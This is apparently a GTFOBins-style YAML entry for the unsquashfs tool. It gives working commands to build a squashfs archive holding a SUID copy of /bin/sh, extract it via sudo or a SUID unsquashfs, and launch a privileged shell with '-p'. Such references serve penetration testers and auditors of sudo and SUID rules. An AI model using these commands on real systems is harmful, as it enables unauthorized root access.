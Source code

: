 ```yaml
---
description: |
  `unsquashfs` preserve the SUID bit when extracting the file system. Prepare an archive beforehand with the following commands as root:

  ```
  cp /bin/sh .
  chmod +s sh
  mksquashfs sh shell
  ```

  Extract it on the target, then run the SUID shell as usual (omitting the `-p` where appropriate).
functions:
  sudo:
    - code: |
        sudo unsquashfs shell
        ./squashfs-root/sh -p
  suid:
    - code: |
        ./unsquashfs shell
        ./squashfs-root/sh -p
---
```

